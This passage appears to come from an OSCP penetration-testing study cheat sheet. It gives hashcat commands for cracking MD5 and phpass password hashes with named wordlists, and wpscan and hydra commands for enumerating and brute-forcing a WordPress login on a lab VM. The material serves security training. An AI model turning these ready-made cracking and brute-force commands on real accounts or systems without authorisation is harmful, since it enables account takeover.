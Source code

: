 ### 2.7. Cracking password hashes

#### MD5

> [!Tip]
> 
> MD5 hashes are always **32 characters**

Examples: [DC-9](https://github.com/joetanx/oscp/blob/main/vulnhub/dc-9.md), [digitalworld.local:Development](https://github.com/joetanx/oscp/blob/main/vulnhub/digitalworld.local-development.md)

|   |   |
|---|---|
|Hashcat|`hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`|
|Dictionary lookup online|<https://md5.gromweb.com/><br><https://crackstation.net/>|

> [!Tip]
> 
> hashcat takes time and wordlists are limited, looking up MD5 hashes in online dictionaries typically yield better success rate

#### phpass

Examples: [DeRPnStiNK](https://github.com/joetanx/oscp/blob/main/vulnhub/derpnstink.md)

|   |   |
|---|---|
|Hashcat|`hashcat -m 400 hashes.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt`|

> [!Tip]
> 
> `rockyou.txt` has **14 million** entries that takes hashcat about an hour to crunch through, the SecLists top **1 million** list will be a good alternative that takes hashcat about 2 minutues to crunch through and yet still provide sufficient password coverage

### 2.8. Wordpress

#### 2.8.1. Enumeration

Examples: [sean](https://github.com/joetanx/oscp/blob/main/pwk-lab.sean.md)

<details><summary><code>wpscan --url http://$TARGET/$PATH/ -e at,ap,u</code></summary></details>

#### 2.8.2. Brute force Wordpress login

Examples: [EVM](https://github.com/joetanx/oscp/blob/main/vulnhub/evm.md)

```sh
wpscan --url http://192.168.56.103/wordpress -U c0rrupt3d_brain -P 10-million-password-list-top-100000.txt
hydra -l c0rrupt3d_brain -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt 192.168.56.103 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.103%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect"
hydra -l c0rrupt3d_brain -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt 192.168.56.103 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.103%2Fwordpress%2Fwp-admin%2F&testcookie=1:S=Dashboard"
```
